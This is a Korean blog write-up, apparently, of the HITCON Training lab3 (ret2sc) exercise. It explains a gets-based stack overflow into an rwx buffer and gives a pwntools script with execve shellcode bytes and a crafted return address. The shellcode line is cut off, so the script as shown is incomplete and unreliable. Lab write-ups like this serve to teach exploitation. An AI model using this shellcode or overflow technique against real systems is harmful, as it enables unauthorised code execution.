 ```yaml
---
layout: post
title: "[HITCON Training] lab3"
comments : true
category : War Game
---
```


# 문제
***

해당 binary는 read를 통해 hard coding된 영역에 0x32byte 만큼 입력을 받는다. 그리고 get 함수를 호출하는데 이 get 함수를 이용하면 bof를 발생시킬 수 있다.

++hard coding된 영역은 rwx권한이 부여되어 있다.++ 

ALSR이 걸려 있으므로 hard coding된 영역에 shellcode를 삽입한 뒤 get을 이용해 해당 주소로 jmp하면 shell을 얻을 수 있다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path='/home/sungyun/HITCON-Training/LAB/lab3/ret2sc'

shell="\x90"*20
shell+="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x8$

pay="A"*32+"\x60\xa0\x04\x08"


p=process(file_path)

p.recvuntil(":")
p.send(shell)
p.recvuntil(":")
p.sendline(pay)

p.interactive()

```


